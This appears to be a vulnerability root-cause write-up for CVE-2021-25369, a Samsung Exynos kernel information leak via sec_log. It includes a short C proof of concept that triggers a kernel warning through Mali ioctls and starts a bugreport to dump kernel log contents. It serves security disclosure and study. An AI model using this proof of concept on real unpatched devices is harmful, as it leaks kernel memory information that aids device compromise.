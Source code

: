 # CVE-2021-25369: Samsung kernel info leak in sec_log
*Maddie Stone*

## The Basics

**Disclosure or Patch Date:** March 01, 2021

**Product:** Samsung Android

**Advisory:** https://security.samsungmobile.com/securityUpdate.smsb

![](CVE-2021-25369-advisory.png)

**Affected Versions:** Samsung Exynos, kernel 4.14.113, pre SMR-Mar-2021

**First Patched Version:** SMR-Mar-2021

**Issue/Bug Report:** N/A

**Patch CL:** N/A

**Bug-Introducing CL:** N/A

**Reporter(s):** Anonymous

## The Code

**Proof-of-concept:**

```c
// To triger the WARN_ON
   hwcnt_fd = ioctl(dev_mali_fd, 0x40148008, &v4);
   ioctl(hwcnt_fd, 0x4004BEFE, 0);

// To start the bugreport which writes kmsg contents to /data/log/sec_log.log
   system("setprop dumpstate.options bugreportfull; setprop ctl.start bugreport");
```

**Exploit sample:** N/A

**Access to the exploit sample?** Yes


## The Vulnerability

**Bug class:** Logic/design flaw
